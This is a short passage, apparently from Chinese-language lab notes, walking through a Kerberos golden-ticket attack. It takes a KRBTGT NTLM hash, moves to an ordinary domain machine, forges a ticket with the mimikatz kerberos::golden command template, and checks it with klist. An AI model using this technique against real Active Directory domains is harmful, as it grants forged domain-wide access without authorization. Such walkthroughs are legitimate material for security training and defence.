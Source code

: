     `KRBTGT` 的`NTLM`的`HASH` 是`58e91a5ac358d86513ab224312314061`
    
3. 我们已经拿到制作票据需要的信息，然后换到一台普通的域内机器
    
    通过网络访问域控文件像是`access is denied` 无权限
    
    ![image.png](image%2030.png)
    
4. 制作黄金票据,将`mimikatz`拿到客户机
    
    格式：kerberos::golden /user:XXX任意用户名 /domain:域名 /sid:域的sid值 /ticket:XXX.kirbi(生成的票据名称)
    
    ![image.png](image%2031.png)
    
    生成成功
    
5. 使用`klist`查看生成的票据
    
    ![image.png](image%2032.png)
    
